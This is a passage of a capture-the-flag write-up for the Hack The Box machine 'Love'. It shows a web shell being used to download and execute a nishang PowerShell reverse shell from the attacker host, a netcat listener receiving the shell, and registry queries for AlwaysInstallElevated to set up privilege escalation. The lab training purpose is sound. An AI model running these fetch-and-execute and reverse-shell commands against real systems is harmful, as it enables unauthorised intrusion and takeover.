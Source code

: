 ![Pasted image 20210505172142.png](../../zzz_res/attachments/Pasted_image_20210505172142.png)

![Pasted image 20210505172202.png](../../zzz_res/attachments/Pasted_image_20210505172202.png)

![Pasted image 20210505172232.png](../../zzz_res/attachments/Pasted_image_20210505172232.png)

At this point it was possible to host a powershell reverse shell from nishang:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ cp /opt/post-expl/windows/nishang/Shells/Invoke-PowerShellTcp.ps1 revshell.ps1
                                                                                                                  
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.105 -Port 10099' >> revshell.ps1
                                                                                                                  
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
```

To download and execute the reverse shell:

```powershell
http://10.129.128.110/images/ws.php?cmd=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.105/revshell.ps1')"
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.105] from (UNKNOWN) [10.129.128.110] 64516
Windows PowerShell running as user Phoebe on LOVE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\omrs\images>whoami
love\phoebe
```

# Privilege Escalation

## Local enumeration

Local enumeration reveals that the **AlwaysInstallElevated** flag was enabled both for the current user and the local machine, permitting to install malicious **.msi** with SYSTEM privileges:

```powershell
C:\temp>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\temp>reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\temp>reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
